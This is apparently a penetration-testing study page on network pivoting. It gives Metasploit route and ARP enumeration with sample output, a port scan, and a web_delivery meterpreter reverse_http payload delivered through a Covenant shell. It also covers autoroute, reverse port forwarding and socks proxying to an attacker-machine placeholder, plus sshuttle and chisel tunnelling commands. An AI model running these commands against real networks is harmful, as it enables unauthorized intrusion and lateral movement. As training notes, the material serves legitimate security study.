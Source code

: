# Pivoting

## Metasploit

### Check routes on a win machine

- We need to see what other access has our target machine

- `route print`
  ```
  C:\Windows\system32>route print
  route print
  ===========================================================================
  Interface List
   12...08 00 27 ae c1 68 ......Intel(R) PRO/1000 MT Desktop Adapter
    1...........................Software Loopback Interface 1
  ===========================================================================

  IPv4 Route Table
  ===========================================================================
  Active Routes:
  Network Destination        Netmask          Gateway       Interface  Metric
            0.0.0.0          0.0.0.0     192.168.57.1        10.0.2.15     25
           10.0.2.0    255.255.255.0         On-link         10.0.2.15    281
          10.0.2.15  255.255.255.255         On-link         10.0.2.15    281
         10.0.2.255  255.255.255.255         On-link         10.0.2.15    281
          127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
          127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
    127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         10.0.2.15    281
    255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
    255.255.255.255  255.255.255.255         On-link         10.0.2.15    281
  ===========================================================================
  Persistent Routes:
    None

  IPv6 Route Table
  ===========================================================================
  Active Routes:
   If Metric Network Destination      Gateway
    1    331 ::1/128                  On-link
   12    281 fe80::/64                On-link
   12    281 fe80::857:534f:3bb0:8fce/128
                                      On-link
    1    331 ff00::/8                 On-link
   12    281 ff00::/8                 On-link
  ===========================================================================
  Persistent Routes:
    None
  ```

- `arp -a`
  ```
  Interface: 10.0.2.15 --- 0xc
  Internet Address      Physical Address      Type
  10.0.2.3              08-00-27-35-94-d3     dynamic   
  10.0.2.4              08-00-27-fc-72-e9     dynamic   
  10.0.2.5              08-00-27-7f-90-90     dynamic   
  10.0.2.8              08-00-27-1d-d2-98     dynamic   
  10.0.2.255            ff-ff-ff-ff-ff-ff     static    
  192.168.57.1          52-54-00-12-35-00     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    
  ```

- Now that we have other interesting IPs we can try to reach those new ones
- We can make a port scan on one of these IPs
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 10.0.2.5`
- `set ports 445`
- `run`
  ```
  [+] 10.0.2.5:             - 10.0.2.5:445 - TCP OPEN
  [*] 10.0.2.5:             - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```  
  We could of course have set more ports and this would be a cool nmap like tool.
  

## Reverse port forwarding and Session Passing with Metasploit having initial shell on Covenant

- We can assume that we have a shell with covenant for instance
- We generate a payload with metasploit through web delivery (more stealthy because it can pass as http traffic)
- `use exploit/multi/script/web_delivery`
- `set target 2` (for powershell)
- `set payload windows/x64/meterpreter/reverse_http`
- set lhost to your attacking machine
- sel an lport 
- `exploit -j`
- Now we can copy the payload and paste to our grunt in Covenant
- Metasploit should now have opened a session
- We can choose an interface with `ipconfig`
- `run autoroute -s 192.168.16.0/24`
- We can check it's been done using `run autoroute -p`
- We can now set up a reverse port forward
- `portfwd add -R -p 1234 -l 443 -L ATTACKING-MACHINE-IP`
- We can check it's been done using `portfwd`
- we can background our session with CTRL-Z 
- We will setup a socks proxy `use auxiliary/server/socks4a`
- We need to check our port in `/etc/proxychains4.conf`
- `set srvport 9050`
- we can check our jobs using `jobs`
- We can kill the web delivery one that we do not need anymore `jobs -k ID-OF-JOB`
- We now need to create a listener on covenant that will interact with the port forward set previously:
  `1      192.168.3.28:443  0.0.0.0:1234  Reverse`
- BindAddress can stay at 0.0.0.0, BindPort should be 443, connectPort should be 1234 and connect address is the ip of our victime machine.
- We should now be able to reach other machine in the network of the initial machine that has now route to our attacking machine using proxychains

## Shuttle

Let's say you got shell on a machine and this machine has access local to another (let's call it machine 2).
Shuttle will allow you to access machine 2 from your network and act as a proxy.  

```
sshuttle --listen 0.0.0.0 -e "ssh -i keyfile" -r user@IP-OF-YOUR-TARGET-MACHINE IP-OF-SUBNET-ACCESSIBLE-THROUGH-MACHINE2/24 -v
// example
sshuttle --listen 0.0.0.0 -e "ssh -i key" -r root@10.10.120.117 172.12.1.0/24 -v
```

## Chisel

- If you have a shell on a machine that has a local port open you can forward this port to your machine using chisel, it is called **port forwarding** for instance in our example we want to forward to listen the port 445 of the target machine that is open locally. You will then be able to intract from your kali on your port 445:

```
- On my kali `chisel server --reverse` (it is going to listen on port 8080)
- On the target `.\chisel.exe client KALI-IP:8080 R:445:127.0.0.1:445`
```
- You can check out examples of use of chisel on the [chatterbox writeup](../writeups/HTB-chatterbox.md) or [buffer overflow windows](../Binary-Exploitation/buffer-overflow-stack-win86.md)

## Resources

{% embed url="https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/" %} Amazing Resource about pivoting but only in french, it could def be read using google translate {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} TCM Security Academy - Practical Ethical Hacking - The Complete Course {% endembed %}
